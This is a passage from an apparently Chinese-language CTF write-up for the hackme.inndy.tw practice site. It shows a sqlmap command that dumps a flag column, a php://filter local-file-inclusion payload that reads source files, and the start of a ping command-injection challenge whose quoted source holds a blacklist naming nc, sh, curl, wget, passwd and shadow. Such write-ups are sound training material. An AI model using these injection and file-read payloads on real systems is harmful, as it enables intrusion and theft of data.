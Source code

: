| flag     | varchar(255) |
| id       | int(11)      |
| padding0 | int(11)      |
| padding1 | int(11)      |
+----------+--------------+
```

可以看到 flag 就在这里，于是只要暴出这个字段就好啦！

```python sqlmap.py -u "https://hackme.inndy.tw/gb/index.php?mod=read&id=3" --level 3 --batch --dbs -D guestbook -T flag -C flag --dump```

至于结果嘛，当然就不放出来啦！

## 14. LFI (Web)

LFI 代表 Local File Inclusion，即为“本地文件包含”。大概就是在Web端可以显现出某服务器本地的一些文件，同时还可以下载获得一些敏感的配置之类的漏洞。

根据本题的题目名可以知道这里存在本地文件包含漏洞，所以只要能够读到 flag 文件即可。

从 index 页面的代码中可以看到：

```html
<a href="?page=pages/flag">Flag</a>
```

所以读 ```https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/flag```

可以得到一串经过base64编码的字符串，解码之后得到 "Can you read the flag<?php require('config.php'); ?>?"

于是再读 ```https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config``` 就可以得到base64编码过的 flag 啦。

## 15. homepage (Web)

[homepage](https://hackme.inndy.tw/) 下能够发现一个 cute.js， 是用 aaencode 编码过的程序。可以在控制台直接执行它，会得到一个二维码。扫描该二维码即可得到 flag。

## 16. ping (Web)

该题的地址为 [https://hackme.inndy.tw/ping/](https://hackme.inndy.tw/ping/)

页面中给出了其html代码：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Ping</title>
</head>
<body>
    <form action="." method="GET">
        IP: <input type="text" name="ip"> <input type="submit" value="Ping">
    </form>
    <pre><?php
        $blacklist = [
            'flag', 'cat', 'nc', 'sh', 'cp', 'touch', 'mv', 'rm', 'ps', 'top', 'sleep', 'sed',
            'apt', 'yum', 'curl', 'wget', 'perl', 'python', 'zip', 'tar', 'php', 'ruby', 'kill',
            'passwd', 'shadow', 'root',
            'z',
            'dir', 'dd', 'df', 'du', 'free', 'tempfile', 'touch', 'tee', 'sha', 'x64', 'g',
            'xargs', 'PATH',
            '$0', 'proc',
```